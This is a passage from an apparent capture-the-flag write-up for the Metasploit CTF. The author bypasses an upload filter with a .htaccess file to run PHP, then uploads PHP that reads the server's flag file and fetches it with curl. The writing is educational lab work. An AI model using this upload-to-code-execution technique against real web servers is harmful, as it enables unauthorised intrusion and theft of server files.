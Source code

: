 I uploaded the file. 

![.htaccess Uploaded](/assets/images/2021/12/MetasploitCTF/htaccessUploaded.png ".htacess Uploaded")

I clicked on the link, and sure enough, the .htaccess was displayed. So I knew that the bypass worked. 

Next I wrote some PHP in a file called `test.vuln`, and uploaded it.

```php
<?php
echo 'IT WORKED';
```

When I accessed it, the file was executed and displayed my message. 

![It Worked](/assets/images/2021/12/MetasploitCTF/testVuln.png "It Worked")

I knew I could execute any PHP I wanted on the server. So I modified my test file to read the flag file and echo it back to me. 

```php
<?php
echo file_get_contents('/flag.png');
```

I uploaded that file, then used curl to download the flag image and get it's MD5 checksum. 

```bash
$ curl http://localhost:8082/file_uploads/test.vuln -o flag.png
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  129k    0  129k    0     0   477k      0 --:--:-- --:--:-- --:--:--  479k

$ md5sum flag.png
270d4a0a9abc1c048102ff8b91f10927  flag.png
```